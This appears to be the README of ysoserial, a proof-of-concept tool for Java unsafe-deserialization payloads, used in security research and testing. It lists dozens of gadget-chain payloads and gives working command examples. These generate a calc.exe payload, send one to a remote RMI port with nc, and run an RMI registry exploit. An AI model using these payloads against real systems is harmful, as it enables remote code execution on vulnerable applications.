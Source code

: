 
# ysoserial

[![GitHub release](https://img.shields.io/github/downloads/frohoff/ysoserial/latest/total)](https://github.com/frohoff/ysoserial/releases/latest/download/ysoserial-all.jar)
[![Travis Build Status](https://api.travis-ci.com/frohoff/ysoserial.svg?branch=master)](https://travis-ci.com/frohoff/ysoserial)
[![Appveyor Build status](https://ci.appveyor.com/api/projects/status/a8tbk9blgr3yut4g/branch/master?svg=true)](https://ci.appveyor.com/project/frohoff/ysoserial/branch/master)

A proof-of-concept tool for generating payloads that exploit unsafe Java object deserialization.

![logo](ysoserial.png)

## Description

Originally released as part of AppSecCali 2015 Talk
["Marshalling Pickles: how deserializing objects will ruin your day"](
        https://frohoff.github.io/appseccali-marshalling-pickles/)
with gadget chains for Apache Commons Collections (3.x and 4.x), Spring Beans/Core (4.x), and Groovy (2.3.x).
Later updated to include additional gadget chains for
[JRE <= 1.7u21](https://gist.github.com/frohoff/24af7913611f8406eaf3) and several other libraries.

__ysoserial__ is a collection of utilities and property-oriented programming "gadget chains" discovered in common java
libraries that can, under the right conditions, exploit Java applications performing __unsafe deserialization__ of
objects. The main driver program takes a user-specified command and wraps it in the user-specified gadget chain, then
serializes these objects to stdout. When an application with the required gadgets on the classpath unsafely deserializes
this data, the chain will automatically be invoked and cause the command to be executed on the application host.

It should be noted that the vulnerability lies in the application performing unsafe deserialization and NOT in having
gadgets on the classpath.

## Disclaimer

This software has been created purely for the purposes of academic research and
for the development of effective defensive techniques, and is not intended to be
used to attack systems except where explicitly authorized. Project maintainers
are not responsible or liable for misuse of the software. Use responsibly.

## Usage

```shell
$  java -jar ysoserial.jar
Y SO SERIAL?
Usage: java -jar ysoserial.jar [payload] '[command]'
  Available payload types:
     Payload              Authors                                Dependencies                                                                                                                                                                                 
     -------              -------                                ------------                                                                                                                                                                                 
     AspectJWeaver        @Jang                                  aspectjweaver:1.9.2, commons-collections:3.2.2                                                                                                                                               
     Atomikos             @pwntester, @sciccone                  transactions-osgi:4.0.6, jta:1.1                                                                                                                                                             
     BeanShell1           @pwntester, @cschneider4711            bsh:2.0b5                                                                                                                                                                                    
     C3P0                 @mbechler                              c3p0:0.9.5.2, mchange-commons-java:0.2.11                                                                                                                                                    
     Ceylon               @kai_ullrich                           ceylon.language:1.3.3                                                                                                                                                                        
     Click1               @artsploit                             click-nodeps:2.3.0, javax.servlet-api:3.1.0                                                                                                                                                  
     Clojure              @JackOfMostTrades                      clojure:1.8.0                                                                                                                                                                                
     Clojure2             @JackOfMostTrades                      clojure:1.8.0                                                                                                                                                                                
     CommonsBeanutils1    @frohoff                               commons-beanutils:1.9.2, commons-collections:3.1, commons-logging:1.2                                                                                                                        
     CommonsBeanutils2    @k4n5ha0                               commons-beanutils:1.9.2                                                                                                                                                                      
     CommonsCollections1  @frohoff                               commons-collections:3.1                                                                                                                                                                      
     CommonsCollections2  @frohoff                               commons-collections4:4.0                                                                                                                                                                     
     CommonsCollections3  @frohoff                               commons-collections:3.1                                                                                                                                                                      
     CommonsCollections4  @frohoff                               commons-collections4:4.0                                                                                                                                                                     
     CommonsCollections5  @matthias_kaiser, @jasinner            commons-collections:3.1                                                                                                                                                                      
     CommonsCollections6  @matthias_kaiser                       commons-collections:3.1                                                                                                                                                                      
     CommonsCollections7  @scristalli, @hanyrax, @EdoardoVignati commons-collections:3.1                                                                                                                                                                      
     CommonsCollections8  @navalorenzo                           commons-collections4:4.0                                                                                                                                                                     
     CreateZeroFile       @JackOfMostTrades                      scala-library:2.12.6                                                                                                                                                                         
     FileUpload1          @mbechler                              commons-fileupload:1.3.1, commons-io:2.4                                                                                                                                                     
     Groovy1              @frohoff                               groovy:2.3.9                                                                                                                                                                                 
     Hibernate1           @mbechler                              hibernate-core:5.0.7.Final, aopalliance:1.0, jboss-logging:3.3.0.Final, javax.transaction-api:1.2                                                                                            
     Hibernate2           @mbechler                              hibernate-core:5.0.7.Final, aopalliance:1.0, jboss-logging:3.3.0.Final, javax.transaction-api:1.2                                                                                            
     JBossInterceptors1   @matthias_kaiser                       javassist:3.12.1.GA, jboss-interceptor-core:2.0.0.Final, cdi-api:1.0-SP1, javax.interceptor-api:3.1, jboss-interceptor-spi:2.0.0.Final, slf4j-api:1.7.21                                     
     JRMPClient           @mbechler                                                                                                                                                                                                                           
     JRMPListener         @mbechler                                                                                                                                                                                                                           
     JSON1                @mbechler                              json-lib:jar:jdk15:2.4, spring-aop:4.1.4.RELEASE, aopalliance:1.0, commons-logging:1.2, commons-lang:2.6, ezmorph:1.0.6, commons-beanutils:1.9.2, spring-core:4.1.4.RELEASE, commons-collections:3.1
     JavassistWeld1       @matthias_kaiser                       javassist:3.12.1.GA, weld-core:1.1.33.Final, cdi-api:1.0-SP1, javax.interceptor-api:3.1, jboss-interceptor-spi:2.0.0.Final, slf4j-api:1.7.21                                                 
     Jdk7u21              @frohoff                                                                                                                                                                                                                            
     Jython1              @pwntester, @cschneider4711            jython-standalone:2.5.2                                                                                                                                                                      
     Jython2              @pwntester, @cschneider4711, @ykoster  jython-standalone:2.5.2                                                                                                                                                                      
     MozillaRhino1        @matthias_kaiser                       js:1.7R2                                                                                                                                                                                     
     MozillaRhino2        @_tint0                                js:1.7R2                                                                                                                                                                                     
     Myfaces1             @mbechler                              myfaces-impl:2.2.9, myfaces-api:2.2.9, apache-el:8.0.27, javax.servlet-api:3.1.0                                                                                                             
     Myfaces2             @mbechler                              myfaces-impl:2.2.9, myfaces-api:2.2.9, apache-el:8.0.27, javax.servlet-api:3.1.0                                                                                                             
     ROME                 @mbechler                              rome:1.0                                                                                                                                                                                     
     Spring1              @frohoff                               spring-core:4.1.4.RELEASE, spring-beans:4.1.4.RELEASE                                                                                                                                        
     Spring2              @mbechler                              spring-core:4.1.4.RELEASE, spring-aop:4.1.4.RELEASE, aopalliance:1.0, commons-logging:1.2                                                                                                    
     SpringJta            @zerothoughts, @sciccone               spring-tx:5.1.7.RELEASE, spring-context:5.1.7.RELEASE, jta:1.1                                                                                                                               
     Ssrf                 @JackOfMostTrades                      scala-library:2.12.6                                                                                                                                                                         
     Struts2JasperReports @sciccone                              struts2-core:2.5.20, struts2-jasperreports-plugin:2.5.20                                                                                                                                     
     URLDNS               @gebl                                                                                                                                                                                                                               
     Vaadin1              @kai_ullrich                           vaadin-server:7.7.14, vaadin-shared:7.7.14                                                                                                                                                   
     Wicket1              @jacob-baines                          wicket-util:6.23.0, slf4j-api:1.6.4                                                                                                                                                          
     WildFly              @hugow                                 wildfly-connector:30.0.1.Final                 
```

## Examples

```shell
$ java -jar ysoserial.jar CommonsCollections1 calc.exe | xxd
0000000: aced 0005 7372 0032 7375 6e2e 7265 666c  ....sr.2sun.refl
0000010: 6563 742e 616e 6e6f 7461 7469 6f6e 2e41  ect.annotation.A
0000020: 6e6e 6f74 6174 696f 6e49 6e76 6f63 6174  nnotationInvocat
...
0000550: 7672 0012 6a61 7661 2e6c 616e 672e 4f76  vr..java.lang.Ov
0000560: 6572 7269 6465 0000 0000 0000 0000 0000  erride..........
0000570: 0078 7071 007e 003a                      .xpq.~.:

$ java -jar ysoserial.jar Groovy1 calc.exe > groovypayload.bin
$ nc 10.10.10.10 1099 < groovypayload.bin

$ java -cp ysoserial.jar ysoserial.exploit.RMIRegistryExploit myhost 1099 CommonsCollections1 calc.exe
```

## Installation

[![GitHub release](https://img.shields.io/github/downloads/frohoff/ysoserial/latest/total)](https://github.com/frohoff/ysoserial/releases/latest/download/ysoserial-all.jar)

Download the [latest release jar](https://github.com/frohoff/ysoserial/releases/latest/download/ysoserial-all.jar) from GitHub releases.

## Building

Requires Java 1.7+ and Maven 3.x+

```mvn clean package -DskipTests```

## Code Status

[![Build Status](https://travis-ci.org/frohoff/ysoserial.svg?branch=master)](https://travis-ci.org/frohoff/ysoserial)
[![Build status](https://ci.appveyor.com/api/projects/status/a8tbk9blgr3yut4g/branch/master?svg=true)](https://ci.appveyor.com/project/frohoff/ysoserial/branch/master)

## Contributing

1. Fork it
2. Create your feature branch (`git checkout -b my-new-feature`)
3. Commit your changes (`git commit -am 'Add some feature'`)
4. Push to the branch (`git push origin my-new-feature`)
5. Create new Pull Request

## See Also
* [Java-Deserialization-Cheat-Sheet](https://github.com/GrrrDog/Java-Deserialization-Cheat-Sheet): info on vulnerabilities, tools, blogs/write-ups, etc.
* [marshalsec](https://github.com/frohoff/marshalsec): similar project for various Java deserialization formats/libraries
* [ysoserial.net](https://github.com/pwntester/ysoserial.net): similar project for .NET deserialization
